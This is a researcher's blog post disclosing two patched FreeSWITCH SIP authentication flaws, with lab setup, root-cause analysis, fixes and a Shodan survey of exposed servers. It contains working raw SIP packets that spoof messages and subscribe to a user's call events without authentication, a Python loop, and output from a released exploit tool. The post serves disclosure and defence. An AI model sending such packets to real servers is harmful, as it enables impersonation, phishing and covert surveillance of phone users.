




Analyzing two FreeSWITCH vulnerabilities – CVE-2021-41157 & CVE-2021-37624

This post is about two vulnerabilities that I researched on a year back in the FreeSWITCH VoIP server that were fixed and disclosed publicly a few weeks ago. Both of the vulnerabilities were issues that affected the SIP functionality in all versions below v1.10.7 and were categorized under CWE-287.
Background
The story dates to a year ago, back when I was still learning about RTC (real-time communications) security and working under Sandro – where we used to do a lot of research on real-time communication infra. One fine day, he asked me to get familiar with FreeSWITCH, since it was a good alternative to Asterisk. A few days into fiddling around, I figured out that there isn’t much security enabled for a some SIP components in a default installation.
In this post, I’ll do a detailed walkthrough of the setup and the vulnerabilities. I also release a scanning and exploitation toolkit alongside this, so that anyone can reproduce and validate the bugs.
The Setup
The initial setup of FreeSWITCH can be a bit tricky, hence I’ll walk through the setup from scratch – so that the bugs are reproducible and can serve as a reference for any future wanderer in pursuit of knowledge. For our demo, I’ll quickly get a base Debian VM up and running. The next set of steps are as below:
-
To install the server, checkout the “Building from Source” section from here. Make sure to pick a version less than v1.10.7. Once the server is installed, you might need some of the post-installation instructions to get it up and running.
-
After a clean install, you can confirm that FreeSWITCH status via the CLI interface using
fs_cli -rRS. -
Nexts its time to change the default passwords of the users for the installation now.
- First lets open
/usr/local/freeswitch/conf/vars.xmlin your favourite text editor. - Then, change the default password field by editing the value of data in the line:
<X-PRE-PROCESS cmd="set" data="default_password=1234"/> - Once the password has been changed, reload the FreeSWITCH service via the
reloadxmlcommand within thefs_clishell.
- First lets open
-
The default installation comes with 19 pre-configured users for testing purposes. You can create additional new users if you want. Just for the sake of simplicity we’ll make use of the pre-built users in the system.
NOTE: If you’re creating new users, make sure to edit the dialplan configuration under
/usr/local/freeswitch/conf/dialplan/default.xml. -
Once the users have been set up, we can now configure softphones to register with the server. For our example, we’ll use the Zoiper softphone. Here’s how to configure it:
- On the login page of Zoiper, we need to enter the username – which takes the form of
<extension>@<ip>, where the extension can be any one of the prebuilt ones and the IP is the network address of the server. - For the password, let’s enter the changed default password that we configured previously.
- On the login page of Zoiper, we need to enter the username – which takes the form of
-
The registration should succeed immediately, which can be confirmed via the
fs_cliinterface by typingshow registrations.
Nice, we now have a VoIP server up and running.
The Vulnerabilities
1. Missing authentication on SIP MESSAGE packets (CVE-2021-37624)
SIP MESSAGE, defined by RFC 3428, provide a way to communicate between SIP user agents in form of messages. Messages are similar to short message service (SMS) mainly used for chat purposes between extensions (phone numbers). FreeSWITCH supports the SIP MESSAGE functionality as per the RFC.
IThe vulnerability lies in the default setup of a FreeSWITCH server where it didn’t validate the authenticity/origin of SIP MESSAGE packets. This means that an unauthenticated attacker could send messages on behalf of someone else. Additionally, since no authentication is required, chat messages can be spoofed to appear to come from trusted contacts. Abuse of this bug can lead to issues like spam and enable other attacks like phishing, social engineering, etc. Imagine opening your phone in the morning and seeing this message just to hit a panic attack!
To exploit the bug, anyone can simply send this packet to the vulnerable FreeSWITCH server, whose IP in my case is 192.168.0.107 with extension 1005. The attacker machine IP is 192.168.0.105.
MESSAGE sip:1005@192.168.0.107:5000 SIP/2.0
Via: SIP/2.0/UDP 192.168.0.105:38626;rport;branch=z9hG4bK-BpLnfgDs
From: "FBI" <sip:022-324-3000@192.168.0.107:5000>;tag=c2WD8F2q
To: <sip:1005@192.168.0.107:5000>
CSeq: 1 MESSAGE
Content-Type: text/plain
User-Agent: Infected Phone
Call-ID: NfHK5a84jjJkwzDkh9h2
Contact: <sip:022-324-3000@192.168.0.107:5060;transport=udp>
Max-Forwards: 70
Content-Length: 25
FBI here. Open your door!
Let’s try to debug the root cause behind this. FreeSWITCH uses the Sofia library for providing SIP functionalities, and its configuration is located at src/mod/endpoints/mod_sofia/conf/sofia.conf.xml. Before commit 5c6fd51, L320 used to have a parameter named auth-messages (which was a flag to authenticate packets), with a default value set to false.
<!-- <param name="auth-messages" value="false"/> -->

The team addressed the issue by removing auth-messages and introducing a new parameter disable-auth-messages with a higher priority. All versions greater than v1.10.6 now authenticates all messages by default.
Reference:
- Commit
432bfc0
2. Missing authentication on SIP SUBSCRIBE packets (CVE-2021-41157)
SIP SUBSCRIBE, defined by RFC 6665, provides a way to get the current state and status updates from a remote extension. The updates are sent via SIP NOTIFY messages to the requesting endpoint. The story above repeats itself in this case where FreeSWITCH again doesn’t authenticate the endpoint requesting a subscription to events. Abuse of this vulnerability allows anyone to subscribe to event notifications without authenticating. This poses privacy concerns such as monitoring of the user activity, social engineering or similar attacks – essentially converting FreeSWITCH to a survelliance system!
To reproduce the vulnerability, one has to initiate a dialog SUBSCRIBE request to the extension on a vulnerable FreeSWITCH setup. My setup remains the same as above:
SUBSCRIBE sip:1005@192.168.0.107;transport=UDP SIP/2.0
Via: SIP/2.0/UDP 127.0.0.1:12701;rport;branch=z9hG4bK-BpLnfgDsc2
To: <sip:1005@192.168.0.107:5000;transport=UDP>
From: <sip:6969@1005;transport=UDP>;tag=WD8F2qNf
Contact: <sip:1005@127.0.0.1:12701;transport=UDP>
Accept: */*
Max-Forwards: 70
Expires: 600
User-Agent: Infected Phone
Call-ID: HK5a84jjJkwzDkh9h2fh
CSeq: 1 SUBSCRIBE
Event: dialog
Content-Length: 0
FreeSWITCH will immediately respond with a 202 Accepted response.
Note that the Allow-Events header has multiple values, which means we can subscribe to those specified events and get updates about the user activity.
The next set of steps is obvious. We need to send SUBSCRIBE messages for all those events and wait for the server to NOTIFY us about them. A pseudocode representation in Python would look like this:
all_events = [
"talk", "conference", "as-feature-event", "hold",
"dialog", "line-seize", "call-info", "sla",
"include-session-description", "presence",
"presence.winfo", "message-summary", "refer",
]
for event in all_events:
# send the subscribe requests
socket.send(
f"""SUBSCRIBE sip:1005@192.168.0.107;transport=UDP SIP/2.0
Via: SIP/2.0/UDP 192.168.0.105:52870;rport;branch=z9hG4bK-fUVuS9jZ8u
Accept: */*
To: <sip:1005@192.168.0.107:5060;transport=UDP>
From: <sip:6969@192.168.0.107:5060;transport=UDP>;tag=VbhV3vC5
Contact: <sip:1005@192.168.0.105:52870;transport=UDP>
Max-Forwards: 70
Expires: 600
User-Agent: Infected Phone
Call-ID: AWX39IVUWSP2NcHciWvq
CSeq: 1 SUBSCRIBE
Event: {event}
Content-Length: 0
""")
Once, the packets have been sent, all we need to do is just sit back and listen for connections. For every SUBSCRIBE packet sent, a 202 Accepted response should be immediately received with the Subscription-State header set to active – indicating that the subscription has been accepted.
Thereafter, as the user performs actions (e.g. deregister their softphone, take a phone call, etc), notifications would be sent back to our listener.
SIP NOTIFY bodies use XML (RFC 3680). The below screenshot shows us an example of a NOTIFY body sent back to us indicating that the extension 1005 is available now.
To understand the root cause of this, lets dig into the source code. Prior to commit 0924fed in file sofia.conf.xml – there was a auth-subscriptions parameter whose default value was set to false.
<!-- <param name="auth-subscriptions" value="false"/> -->
The developers fixed this vulnerability by deprecating auth-subscriptions and introducing a disable-auth-subscriptions parameter with a default value set to false in the Sofia config file. Additionally, the auth-subscriptions parameter has been turned to true for all default profiles in FreeSWITCH.
References:
Fixes
The fixes for both the misconfigurations are out and upgrading to v1.10.7 will do the necessary. The same patches have been pulled into the official upstream package repositories in Debian and others, so updating via the package repositories will also do.
Let us quickly take a look at the status quo of the vulnerabilities. A quick Shodan search reveals the number of possibly vulnerable FreeSWITCH servers out there on the internet. Below is a map showing the distribution of the vulnerable servers across the globe.
Here’s the facet analysis graph of the servers mapped to popular cloud providers:
Tool Release
It is my personal opinion that it’s the job of the researcher to release proof of concepts through which the vulnerability can be reproduced. Adhering to my principle, I’m releasing a tool called PewSWITCH (I suck at names :D) to pew pew pew a vulnerableFreeSWITCH server. You can get the tool and detailed instructions on my GitHub.
Let’s quickly demo the tool against my setup. To run the tool, I’ll quickly grab a binary from the releases section and fire it away:
$ ./pewswitch-linux64 -exts 1005 192.168.0.107
___ . ____ _ __ __
/ _ \___|\ __/ __/| __(_) /_____/ /
/ ___/ -_) |/|/ /\ \| |/|/ / / __/ __/ _ \
/_/ \__/|__,__/___/|__,__/_/\__/\__/_//_/ v0.1
"where we pew pew pew freeswitch"
2021/12/05 21:59:16 No port supplied, using default port 5060 for targets...
2021/12/05 21:59:16 Checking if hosts are alive and responding to SIP...
2021/12/05 21:59:16 Host 192.168.0.107:5060 is up and responding to SIP.
2021/12/05 21:59:16 Heuristics indicate that the server is FreeSWITCH.
2021/12/05 21:59:16 Using output directory ./pewswitch-results/ under /home/infected/Projects/pewswitch...
2021/12/05 21:59:16 Starting scan at: 2021-12-05 21:59:16.436642136 +0530 IST m=+0.003288205
2021/12/05 21:59:16 Sent "FBI here. Open your door!" to 1005@192.168.0.107:5060!
2021/12/05 21:59:16 Exploit completed for CVE-2021-37624: 1005@192.168.0.107:5060
2021/12/05 21:59:16 Trying to subscribe extension for 60 seconds...
2021/12/05 21:59:16 Subscribing to extension 1005 for event: talk
2021/12/05 21:59:16 Subscribing to extension 1005 for event: hold
2021/12/05 21:59:16 Subscribing to extension 1005 for event: conference
2021/12/05 21:59:16 Subscribing to extension 1005 for event: as-feature-event
2021/12/05 21:59:16 Subscribing to extension 1005 for event: dialog
2021/12/05 21:59:16 Subscribing to extension 1005 for event: line-seize
2021/12/05 21:59:16 Subscribing to extension 1005 for event: call-info
2021/12/05 21:59:16 Subscribing to extension 1005 for event: sla
2021/12/05 21:59:16 Subscribing to extension 1005 for event: include-session-description
2021/12/05 21:59:16 Subscribing to extension 1005 for event: presence
2021/12/05 21:59:16 Subscribing to extension 1005 for event: presence.winfo
2021/12/05 21:59:16 Subscribing to extension 1005 for event: message-summary
2021/12/05 21:59:16 Subscribing to extension 1005 for event: refer
2021/12/05 21:59:16 Starting to listen for NOTIFY messages for 60 seconds...
2021/12/05 21:59:47 Notifications received for extension 1005: 39
2021/12/05 22:00:16 Exploit completed for CVE-2021-41157: 1005@192.168.0.107:5060
2021/12/05 22:00:16 Writing results to destination directory as JSON...
2021/12/05 22:00:16 Scan finished at: 2021-12-05 22:00:16.475353572 +0530 IST m=+60.041999624
2021/12/05 22:00:16 Total 1 hosts scanned in 1m0.038729564s.
This creates a ./pewswitch-results/ directory and puts a JSON report of the scan under it. You can find a sample of the report here.
There are several other command lines flags available with the tool itself which allows packet customization and other features. Feel free to explore them!
Acknowledgements
Credits go out to the team at Enable Security who coordinated the disclosures and came up with excellent advisories which can be found on FreeSWITCH’s GitHub. Apart from that, I’d like to personally thank Sandro for allowing me to do this research under him and his incredible support and guidance throughout the process. From knowing nothing about telephony to finding bugs in popular RTC implementations, it had been an amazing journey. :)
This brings us to the end of the blog. Cheers! 🥂